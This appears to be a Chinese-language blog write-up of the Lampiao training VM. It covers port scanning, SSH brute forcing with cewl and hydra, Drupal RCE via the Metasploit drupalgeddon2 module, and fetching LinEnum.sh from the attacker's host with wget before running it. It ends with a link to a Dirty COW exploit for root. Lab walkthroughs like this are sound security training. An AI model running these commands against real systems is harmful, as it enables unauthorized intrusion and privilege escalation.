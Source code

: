 ```yaml
---
title: Lampiao（dirtycow）
categories:
- training
tags:
- training
- cms
- linux
---
```

[参考资料：linux 提权脚本](https://www.freebuf.com/sectool/121847.html)

---

info
```
22/tcp open  ssh OpenSSH 6.6.1p1 Ubuntu
80/tcp open  http
OS details: Linux 3.2 - 4.8
```

关于80端口，肯定有防火墙之类的东东==
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/1.PNG)

dirbuster、nikto、nmap、unicornscan找不到任何信息。除了浏览器直接访问80端口，返回了一个页面，It's easy，个鬼啊！！！

最神奇的是只要burp一挂代理，目标机就没有响应了，一关代理，就返回It's easy的页面。感觉好像被靶机作者调戏了。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/12.PNG)
em...应该是连接80端口，就会发送回这个字符画。

我不想爆破ssh了，看wp吧==
看大佬表演。。
## 思路一（爆破ssh）
用nmap -p- -Pn -vv ip 扫描将近一个小时，65535个端口，可以发现1898端口开放。
根据这个端口生成一个字典，hydra爆破即可获得shell。
dirtycow exp运行一下，即可得到root权限。

cewl -w dict.txt http://192.168.11.131:1898/?q=node/1
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.133 ssh

好无聊，爆破什么的没有美感~~

## 思路二（cms漏洞命令执行）
#### 1898-http
该端口开放http服务，页面下方显示drupal
robots.txt提示了，`http://ip:1898/CHANGELOG.txt`
更新版本为Drupal 7.54

#### 查找可用exploit
Drupal < 7.58 - 'Drupalgeddon3'  Remote Code
```
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOST ip
set RPORT 1898
run
shell
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/2.PNG)

#### msf导入载荷
在用metasploit找不到可用漏洞的模块情况下，可以在`https://www.exploit‐db.com/` 上搜索并保
存。
然后在/root/.msf4/modules/exploits/ 目录下新建一个自定义目录，并在该目录下存放你的msf
模块。
例如，新建/root/.msf4/modules/exploits/new ,并在该目录下存放1234.rb模块。

#### 寻找可用exp的bash脚本
[LinEnum.sh](https://github.com/rebootuser/LinEnum)，用这个提权脚本搜集可用信息。
```
kali执行：
#python -m SimpleHTTPServer
----------------
反弹shell执行：
cd /tmp
wget http://192.168.1.128:8000/LinEnum.sh
chmod a+x LinEnum.sh
./LinEnum.sh > log.txt
```
运行了提权检查脚本以后，发现输出实在太多了，而且多数是没有什么意义的输出，例如error,xxxx

如果是我来设计提权脚本，我尝试了99种，失败了98种提权尝试，那么我会输出一种可能的提权方式，而不是98失败+1成功。

---

[linux-exploit-suggester.sh](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

dirty cow,exp :https://www.exploit-db.com/download/40847.cpp
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/3.PNG)

